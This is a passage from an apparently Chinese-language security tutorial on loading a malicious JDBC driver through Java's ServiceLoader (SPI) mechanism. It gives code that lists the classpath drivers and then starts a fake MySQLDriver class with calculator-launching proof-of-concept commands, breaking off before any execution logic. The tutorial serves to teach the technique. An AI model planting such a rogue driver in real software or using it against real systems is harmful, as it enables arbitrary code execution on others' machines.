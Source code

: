 可以来看看ClassPath下有哪些能够通过SPI加载

```
package JDBCTest;

import java.sql.Driver;
import java.util.Iterator;
import java.util.ServiceLoader;

public class JdbcDriverList {
    public static void main(String[] args) {

        ServiceLoader<Driver> serviceLoader = ServiceLoader.load(Driver.class, ClassLoader.getSystemClassLoader( ));

        for(Iterator<Driver> iterator = serviceLoader.iterator(); iterator.hasNext();) {

            Driver driver = iterator.next();

            System.out.println(driver.getClass().getPackage() + " ------> " + driver.getClass().getName());
        }
    }
}
```

![image-20221125114708444](images/10.png)

我这里只有一个mysql的驱动

接下来，我们来打包一个恶意的driver

一个实现java.sql.Driver的恶意类

```
package com.mysql.fake.jdbc;

import java.sql.*;
import java.util.*;
import java.util.logging.*;

public class MySQLDriver implements java.sql.Driver {

    protected static boolean DEBUG = false;

    protected static final String WindowsCmd = "calc";

    protected static final String LinuxCmd = "open -a calculator";

```
